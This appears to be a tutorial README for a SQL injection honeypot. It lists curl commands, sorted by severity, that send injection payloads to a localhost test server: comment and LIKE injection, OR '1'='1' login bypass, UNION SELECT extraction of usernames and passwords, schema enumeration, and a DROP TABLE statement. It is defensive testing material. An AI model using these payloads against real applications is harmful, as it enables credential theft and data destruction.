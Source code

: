 # SQL Injection Honeypot Tutorial

This tutorial demonstrates different types of SQL injection attacks and how they are detected and classified by the honeypot system.

## Attack Examples by Severity Level

### LOW Severity Attacks (0.0-0.3)
These attacks use basic SQL injection patterns like comments and simple LIKE injections.

```bash
# Test basic comment injection
curl "http://localhost:9000/api/products?category=test'--"

# Test simple LIKE injection
curl "http://localhost:9000/api/products?category=test%' LIKE '%"
```

### MEDIUM Severity Attacks (0.3-0.5)
These attacks attempt authentication bypass using OR/AND conditions.

```bash
# Test login bypass with OR condition
curl -X POST http://localhost:9000/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin' OR '1'='1&password=anything"

# Test login bypass with always true condition
curl -X POST http://localhost:9000/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin' OR 'x'='x&password=anything"
```

### HIGH Severity Attacks (0.5-0.7)
These attacks attempt to extract data using UNION SELECT statements.

```bash
# Test UNION SELECT injection
curl "http://localhost:9000/api/products?category=1' UNION SELECT NULL,NULL,NULL,NULL,NULL --"

# Test data extraction attempt
curl "http://localhost:9000/api/products?category=1' UNION SELECT username,password,email,id,NULL FROM users --"
```

### CRITICAL Severity Attacks (0.7-1.0)
These attacks attempt schema enumeration or destructive operations.

```bash
# Test schema enumeration
curl "http://localhost:9000/api/products?category=1' UNION ALL SELECT NULL,NULL,NULL,table_name,NULL FROM information_schema.tables --"

# Test destructive operation
curl "http://localhost:9000/api/products?category=1'; DROP TABLE users; --"
```

